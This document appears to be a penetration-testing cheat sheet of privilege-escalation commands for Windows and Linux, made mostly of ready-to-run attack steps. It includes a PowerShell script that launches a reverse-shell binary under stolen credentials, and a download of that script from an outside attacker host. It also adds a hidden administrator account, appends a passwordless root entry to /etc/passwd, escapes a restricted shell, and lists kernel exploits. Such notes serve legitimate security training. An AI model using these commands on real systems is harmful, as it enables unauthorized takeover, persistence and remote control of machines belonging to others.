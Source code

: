 # Privilege Escalation

## Windows

```text
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
net user
```

### Change User

{% code title="run.ps1" %}
```text
$secpasswd = ConvertTo-SecureString "aliceishere" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("alice",
$secpasswd)
$computer = "BETHANY"
[System.Diagnostics.Process]::Start("C:\Windows\temp\reverse.exe","<argument>",
$mycreds.Username, $mycreds.Password, $computer)
```
{% endcode %}

```text
powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1
```

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.98/run.ps1','C:\Users\Bethany\run.ps1')"
```

```text
net user <username> <password> /add
net localgroup Administrators <username> /add
```

```text
start RDP
```

```text
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic os get osarchitecture
```

* KiTrap0D \(KB979682\)
* MS11-011 \(KB2393802\)
* MS10-059 \(KB982799\)
* MS10-021 \(KB979683\)
* MS11-080 \(KB2592799\)

### Kernel

![https://github.com/khr0x40sh/OSCP-2/blob/master/Windows/WinPrivCheck.bat](.gitbook/assets/image.png)

## Linux

### Writable /etc/passwd

```text
echo 'dummy::0:0::/root:/bin/bash' >> /etc/passwd
```

### Linux Kernel 2.6 UDEV

* [http://www.madirish.net/370](http://www.madirish.net/370)

### Break out from jail shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## References

### Linux

* [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [https://www.hackingarticles.in/linux-privilege-escalation-via-automated-script/](https://www.hackingarticles.in/linux-privilege-escalation-via-automated-script/)

### Windows

* [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)
* [https://guif.re/windowseop](https://guif.re/windowseop)
* [https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell](https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell)
* [https://guide.offsecnewbie.com/privilege-escalation/windows-pe](https://guide.offsecnewbie.com/privilege-escalation/windows-pe#windows-ms-11-080)

### Popular Linux Kernel Exploit

1. [https://git.zx2c4.com/CVE-2012-0056/about/\#mempodipper](https://git.zx2c4.com/CVE-2012-0056/about/#mempodipper)
2. [http://www.madirish.net/370](http://www.madirish.net/370)

### Popular Windows Kernel Exploit

1. Kitrap0D




